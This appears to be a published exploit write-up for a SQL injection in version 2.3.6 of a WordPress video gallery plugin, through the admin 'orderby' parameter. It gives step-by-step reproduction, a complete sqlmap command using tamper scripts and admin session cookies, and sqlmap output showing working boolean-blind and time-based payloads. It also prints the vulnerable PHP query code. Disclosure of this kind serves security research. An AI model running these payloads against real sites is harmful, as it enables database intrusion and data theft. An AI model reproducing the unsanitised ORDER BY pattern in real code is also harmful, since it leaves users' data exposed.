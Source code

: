 #### Exploit Title: Wordpress Video Gallery - YouTube Gallery and Vimeo Gallery Plugin SQL Injection 
#### Date: 2024-07-05
#### Exploit Author: tmrswrr
#### Category : Webapps
#### Vendor Homepage: https://total-soft.com/wp-video-gallery/
#### Version 2.3.6

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Video Gallery > Create > Use Theme` and save it.

2. After saving, go back to TS Video Gallery and click the title: https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=asc

3. WordPress database error: [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\\\' desc LIMIT 15 OFFSET 0' at line 1]
SELECT `id`,`TS_VG_Title`,`TS_VG_Option`,`TS_VG_Sort`,`created_at` FROM wp_ts_galleryv_manager ORDER BY TS_VG_Title\\\' desc LIMIT 15 OFFSET 0

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/9.png">

5. Search for the `orderby` parameter.

### SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=desc" --batch --dbms=mysql --thread 10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 -p orderby --cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|0b78b25e2683d7f381967019db82b3f3fd9b06f1524ec128af92a74fe7c68e8f; \
wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|307f68044e4c2632757b13f86f770ceda3c9c7866a0b595b33a7a2f675224a15; \
wordpress_test_cookie=WP Cookie check; \
wp-settings-time-1=1720173805" --thread 10
```

### RESULT

sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:
---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
[08:37:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:37:45] [INFO] the back-end DBMS is MySQL
[08:37:45] [PAYLOAD] (seLecT/**/(cAsE/**/WHen/**/(veRSIOn()/**/liKe/**/0x254d61726961444225)/**/ThEN/**/0x54535f56475f5469746c65/**/elSE/**/(seLecT/**/6685/**/UNiON/**/seLecT/**/9990)/**/End))
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/10.png">

# Vulnerable Code:
class-tsvg-list.php

public static function tsvg_get_galleries( $tsvg_per_page = 10, $tsvg_page_number = 1 ) {
		global $wpdb;
		$tsvg_get_result = $wpdb->get_results(
			$wpdb->prepare(
				'SELECT `id`,`TS_VG_Title`,`TS_VG_Option`,`TS_VG_Sort`,`created_at` FROM %1$s %2$s %3$s ORDER BY %4$s %5$s LIMIT %6$d OFFSET %7$d',
				esc_sql( $wpdb->prefix . 'ts_galleryv_manager' ),
				isset( $_REQUEST['s'] ) && ! empty( sanitize_text_field( $_REQUEST['s'] ) ) ? "WHERE TS_VG_Title like " : " ",
				isset( $_REQUEST['s'] ) && ! empty( sanitize_text_field( $_REQUEST['s'] ) ) ? '%' . $wpdb->esc_like( $_REQUEST['s'] ) . '%' : " ",
				isset( $_REQUEST['orderby'] ) && ! empty( sanitize_text_field( $_REQUEST['orderby'] ) ) ? sanitize_text_field( $_REQUEST['orderby'] ) : "id",
				isset( $_REQUEST['order'] ) && ! empty( sanitize_text_field($_REQUEST['order']) ) ? ' ' . sanitize_text_field( $_REQUEST['order'] ) : "ASC",
				(int) $tsvg_per_page,
				(int) ( $tsvg_page_number - 1 ) * $tsvg_per_page,
			),
			ARRAY_A
		);
		return $tsvg_get_result;
	}

